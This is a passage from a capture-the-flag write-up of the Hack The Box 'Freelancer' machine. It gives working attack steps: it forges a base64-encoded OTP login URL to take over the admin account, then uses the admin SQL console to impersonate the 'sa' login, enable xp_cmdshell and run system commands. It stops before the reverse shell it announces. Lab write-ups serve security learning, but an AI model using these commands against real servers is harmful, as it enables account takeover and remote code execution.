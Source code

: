 Will decode that value
```
echo 'MTAwMTA=' | base64 -d
```
![[Pasted image 20240621153011.png]]
So this **10010** must be my user id

Now we have to find what is the user id of Admin

I don't know the admin id, after some research for hints, I get to know that admin's id is **2**

So here is my revised url 
```
http://freelancer.htb/accounts/login/otp/Mg==/2e733dce3edb5dfc5889526825ed0d04/
```
base64 encoded value of 2 is Mg== 

Now I'm logged in as admin
![[Pasted image 20240621162841.png]]

Now will try to reach http://freelancer.htb/admin
![[Pasted image 20240621162642.png]]
Yes we can get Admin Accesss.




We can use SQL terminal in the admin's Dashboard
![[Pasted image 20240621175659.png]]
Anyways it show error, will try with other queries

```
SELECT suser_sname(owner_sid) FROM sys.databases
```
![[Pasted image 20240621175845.png]]

```
EXECUTE AS LOGIN = 'sa'  
SELECT IS_SRVROLEMEMBER('sysadmin');
```
![[Pasted image 20240621175928.png]]


Now will enable the xp_cmdshell
```
EXECUTE AS LOGIN = 'sa'
EXEC sp_configure 'show advanced options', '1';
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
![[Pasted image 20240621195719.png]]

Now Will check whether xp_cmdshell is working 
```
EXECUTE AS LOGIN = 'sa'
EXECUTE xp_cmdshell 'whoami';
```
![[Pasted image 20240621200003.png]]
It Worked, will get a Reverse shell now

